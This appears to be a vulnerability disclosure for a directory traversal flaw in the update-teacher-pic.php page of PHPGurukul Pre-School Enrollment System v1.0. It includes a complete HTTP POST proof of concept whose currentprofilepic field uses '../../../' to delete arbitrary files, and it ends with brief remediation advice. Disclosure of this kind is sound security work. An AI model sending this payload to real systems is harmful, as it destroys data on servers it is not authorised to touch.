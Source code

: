 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-4(update-teacher-pic.php)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with currentprofilepic in the update-teacher-pic.php file   
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/1.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the update-teacher-pic.php page,   Teachers-Manage-Add Teacher-Update Profile Pic-Update Teacher Profile Pic
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/2.png)
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/3.png)
   ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/7.png)
  
   Intercept the data packet and find the problematic parameter currentprofilepic
   
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/4.png)

   Transformed into attack payload    


    POST /Pre-School-Enrollment-System-PHP/preschool/admin/update-teacher-pic.php?tid=1 HTTP/1.1
    Host: localhost
    sec-ch-ua-platform: "Windows"
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCOslMZHmxE3UWS8E
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-Site: same-origin
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/update-teacher-pic.php?tid=1
    Accept-Language: zh-CN,zh;q=0.9
    Accept-Encoding: gzip, deflate, br, zstd
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    Upgrade-Insecure-Requests: 1
    sec-ch-ua-mobile: ?0
    Sec-Fetch-Mode: navigate
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    Origin: http://localhost
    Sec-Fetch-Dest: document
    Cache-Control: max-age=0
    Sec-Fetch-User: ?1
    Content-Length: 5637583

    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="currentprofilepic"

    ../../../xxx.txt
    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="profilepic"; filename="804a28a9c5be300aafa9f83527956d13.jpeg"
    Content-Type: image/jpeg


    ------WebKitFormBoundaryCOslMZHmxE3UWS8E
    Content-Disposition: form-data; name="submit"


    ------WebKitFormBoundaryCOslMZHmxE3UWS8E--


   Create xxx.txt test file in  D:\phpstudy_pro\WWW\Pre-School-Enrollment-System-PHP
      ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/5.png)

   Send payload, xxx.txt file has been deleted   
   ![8](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot3/6.png)   
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
